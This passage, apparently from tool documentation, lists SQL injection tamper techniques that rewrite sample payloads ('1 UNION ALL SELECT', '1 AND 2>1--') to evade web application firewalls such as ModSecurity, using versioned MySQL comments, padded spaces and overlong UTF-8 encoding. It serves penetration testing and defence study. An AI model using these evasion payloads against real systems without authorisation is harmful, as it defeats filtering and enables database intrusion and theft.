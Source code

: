 - misunion

Replaces instances of `UNION` with `-.1UNION` . For example:

-- First payload  
1 UNION ALL SELECT  
  
-- After using the tamper  
1-.1UNION ALL SELECT

- modsecurityversioned

Embraces complete query with (MySQL) versioned comment. For example:

-- First payload  
1 AND 2>1--  
  
-- After using the tamper  
1 /*!30963AND 2>1*/--

- modsecurityzeroversioned

Embraces complete query with (MySQL) zero-versioned comment. For example:

-- First payload  
1 AND 2>1--  
  
-- After using the tamper  
1 /*!00000AND 2>1*/--

- multiplespaces

Adds multiple spaces (‘ ‘) around SQL keywords. For example:

-- First payload  
'1 UNION SELECT foobar  
  
-- After using the tamper  
'1     UNION     SELECT      foobar

- ord2ascii

Replaces `ORD()` occurences with equivalent `ASCII()` calls. For example:

-- First payload  
ORD('97')  
  
-- After using the tamper  
ASCII('97')

- overlongutf8

Converts all (non-alphanum) characters in a given payload to overlong UTF8 (not processing already encoded). For example:

-- First payload  
SELECT FIELD FROM TABLE WHERE 2>1  
  
-- After using the tamper  
SELECT%C0%A0FIELD%C0%A0FROM%C0%A0TABLE%C0%A0WHERE%C0%A02%C0%BE1

- overlongutf8more
